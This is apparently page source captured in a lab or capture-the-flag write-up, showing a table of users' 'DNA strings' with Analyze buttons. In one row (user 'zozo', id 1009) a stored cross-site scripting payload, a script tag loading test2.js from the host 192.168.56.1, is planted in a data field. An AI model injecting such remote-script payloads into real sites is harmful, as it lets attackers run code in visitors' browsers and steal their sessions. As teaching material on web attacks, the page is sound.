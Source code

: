 ```html
            <td>Alphonse</td>                                                                                          
            <td id="dna_string_id_5">GATC</span>                                                                       
            </td>                                                                                                      
            <td id="dna_res_id_5">Superb</td>                                                                          
            <td><button id="5" onclick="edit_dna(this);">Analyze</button></td>                                         
        </tr>                                                                                                          
        <tr>                                                                                                           
            <td>Kevin</td>                                                                                             
            <td id="dna_string_id_6">TCAG</span>                                                                       
            </td>                                                                                                      
            <td id="dna_res_id_6">Weak</td>                                                                            
            <td><button id="6" onclick="edit_dna(this);">Analyze</button></td>                                         
        </tr>                                                                                                          
--- snip ---
        <tr>                                                                                                           
            <td>devloop</td>                                                                                           
            <td id="dna_string_id_42">1</span>                                                                         
            </td>                                                                                                      
            <td id="dna_res_id_42"></td>                                                                               
            <td><button id="42" onclick="edit_dna(this);">Analyze</button></td>                                        
        </tr>                                                                                                          
        <tr>                                                                                                           
            <td>zozo</td>                                                                                             
            <td id="dna_string_id_1009">                                                                               
                <script src="http://192.168.56.1/test2.js"></script>                                                   
                </span>                                                                                                
            </td>                                                                                                      
            <td id="dna_res_id_1009"></td>                                                                             
            <td><button id="1009" onclick="edit_dna(this);">Analyze</button></td>                                      
        </tr>                                                                                                          
    </table><br />                                                                                                     
    <form action="" method="POST"><input name="logout" type="submit" value="Logout" /></form>                          
```